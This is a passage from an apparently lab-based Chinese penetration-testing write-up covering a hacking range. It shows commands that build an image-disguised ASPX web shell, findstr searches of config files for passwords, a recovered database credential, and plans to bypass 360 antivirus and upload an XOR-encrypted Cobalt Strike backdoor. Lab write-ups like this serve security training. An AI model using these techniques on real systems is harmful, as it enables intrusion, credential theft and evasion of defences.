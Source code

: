 ```
copy a.jpg + b.aspx shell.aspx  # windows cmd
cat a.jpg b.aspx > shell.aspx	# linux shell
```

上传成功后返回这样：

![5]({{ '/ack123/5.png' | prepend: site.url }})

## 权限维持



## 主机信息收集（web1）

### 数据库信息

```powershell
findstr /s /i "password" *.conf
findstr /s /i "password" *.config
```

在 `C:/Hws.com/HwsHostMaster/wwwroot/www.ackmoon.com/web/HdhApp.config` 文件中找到数据库信息：

```
数据库地址：192.168.22.133
账号：sa
密码：pass123@.com
数据库：DemoHdhCms
```

![6]({{ '/ack123/6.png' | prepend: site.url }})

### 内网IP信息

该计算机的内网IP是：`192.168.22.128`

### 进程信息

查看进程信息，发现存在360杀软，之后上传后门时我们就要针对性绕过杀软。

![7]({{ '/ack123/7.png' | prepend: site.url }})

### 系统信息

通过比对 `systeminfo` 信息，找到可提权的漏洞。

![8]({{ '/ack123/8.png' | prepend: site.url }})

## 上线CS

为了更好的内网渗透，我们使用CS工具进行后续步骤，因此首先我们得绕过杀软，上传cs后门。这里我使用简单 xor 算法加密payload。

这里使用 `certutil.exe` 工具下载文件时会被360告警，导致下载中断。因此我们使用之前的上传漏洞即可。
